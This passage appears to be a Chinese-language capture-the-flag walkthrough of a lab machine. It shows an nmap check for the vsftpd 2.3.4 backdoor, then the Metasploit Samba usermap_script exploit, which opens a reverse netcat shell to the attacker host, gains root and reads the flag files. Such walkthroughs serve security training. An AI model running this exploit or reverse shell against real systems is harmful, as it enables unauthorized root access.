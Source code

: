 尝试vsftp对应的漏洞

```shell
 $ locate *.nse | grep vsftp
 /usr/share/nmap/scripts/ftp-vsftpd-backdoor.nse
 $ sudo nmap --script ftp-vsftpd-backdoor.nse -p21 10.10.10.3 -T4 -sSV   
 
 Starting Nmap 7.92 ( https://nmap.org ) at 2022-03-16 15:50 HKT
 Nmap scan report for 10.10.10.3
 Host is up (0.24s latency).
 
 PORT   STATE SERVICE VERSION
 21/tcp open ftp     vsftpd 2.3.4
 Service Info: OS: Unix
 
 Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
 Nmap done: 1 IP address (1 host up) scanned in 24.22 seconds
```

该漏洞不存在，转向ssh和smb

## 2.ssh

试着爆破一下，没发现可以利用的点。

## 3.SMB

### MSF

```shell
 msf6 > search samba
 msf6 > use exploit/multi/samba/usermap_script
 [*] No payload configured, defaulting to cmd/unix/reverse_netcat
 msf6 exploit(multi/samba/usermap_script) > set rhosts 10.10.10.3
 rhosts => 10.10.10.3
 msf6 exploit(multi/samba/usermap_script) > set lhost 10.10.14.2
 lhost => 10.10.14.2
 msf6 exploit(multi/samba/usermap_script) > run
 
 [*] Started reverse TCP handler on 10.10.14.2:4444 
 [*] Command shell session 1 opened (10.10.14.2:4444 -> 10.10.10.3:32875 ) at 2022-03-16 16:04:23 +0800
 
 whoami
 root
 find / -name "user.txt"
 /home/makis/user.txt
 cat /home/makis/user.txt
 83bb7c7fff163562d48ac4ba14316025
 cat /root/root.txt
 848a15387ca22dcf38b1cdc8538223a0
```
